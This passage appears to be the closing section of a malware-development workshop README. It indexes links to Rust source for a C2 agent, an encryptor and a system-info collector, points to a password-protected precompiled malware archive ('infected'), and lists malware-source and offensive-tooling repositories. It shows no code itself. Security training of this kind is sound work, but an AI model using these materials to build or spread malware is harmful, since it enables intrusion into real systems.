If we go to the program that Rayton/ Nick and compare the one you made and the one that they made. 

**Bin**

- [Main](Malware/src/bin/c2-agent.rs)
- [Support Encryptor](Malware/src/bin/encryptor.rs)
  
**Global Code**

- [Command Engine Function](Malware/src/command_engine.rs)
- [Encryption Functions](Malware/src/encryption.rs)
- [Setting Global Functions](Malware/src/lib.rs)
- [Getting System-Info Function](Malware/src/systeminfo.rs)

**Lib**

- [All Crates Used](Malware/Cargo.lock)
- [Crate Configuration File](Malware/Cargo.toml)

**Precomplied Malware**

- [Precomplied Malware](Malware/Precomplied.rar)

> The password for the precomplied malware is `infected`.

# Extra Material

If there is still time, we will be going over things in the [offensive rust](https://github.com/trickster0/OffensiveRust) project and exploring. 

# Closing Notes

```
I hope you gained valuable insights and now have a better understanding of the malware development process. 

Thank you for attending ZTW 2025. 
I look forward to seeing you next time!

Best regards,
Ray
``` 

# Reference Links

This is a list of all the links used in the class. There are also some helpful links for topics not covered in this class.   

- [Malware Development Resources](https://github.com/malsearchs/Pure-Malware-Development)
  
- [Malware Behavior Catalog](https://github.com/MBCProject/mbc-markdown/blob/main/)
  
- [vxunderground MalwareSourceCode Repo](https://github.com/vxunderground/MalwareSourceCode)
  
- [Petya Yara Rule](https://github.com/Yara-Rules/rules/blob/master/malware/RANSOM_Petya.yar)
  
- [Windows API Use For Malware Development ](https://malapi.io/)

- [BleepingComputer Time Bandit Article](https://www.bleepingcomputer.com/news/security/time-bandit-chatgpt-jailbreak-bypasses-safeguards-on-sensitive-topics/)

- [Offensive Rust](https://github.com/trickster0/OffensiveRust)
